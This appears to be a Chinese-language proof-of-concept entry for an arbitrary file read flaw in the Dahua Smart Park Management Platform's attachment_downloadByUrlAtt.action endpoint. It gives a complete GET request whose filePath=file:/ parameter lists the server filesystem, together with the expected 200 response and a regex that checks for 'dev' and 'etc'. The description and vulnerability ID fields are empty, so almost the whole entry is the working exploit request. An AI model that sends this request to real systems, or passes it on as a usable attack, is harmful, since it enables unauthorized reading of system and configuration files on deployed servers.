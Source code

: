 ﻿# 大华智慧园区管理平台 attachment_downloadByUrlAtt.action 任意文件读取

> 更新时间：2023-12-07

> 漏洞编号：

> 漏洞说明：

> 漏洞特征：

> 验证脚本：HTTP

```
GET /portal/itc/attachment_downloadByUrlAtt.action?filePath=file:/ HTTP/1.1
Upgrade-Insecure-Requests: 1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```

> 响应代码特征：200

> 响应内容特征：^(?=.*?dev)(?=.*?etc).*?$

> 上传文件定位：

> 验证文件来源：大华智慧园区管理平台 attachment_downloadByUrlAtt.action 任意文件读取.poc
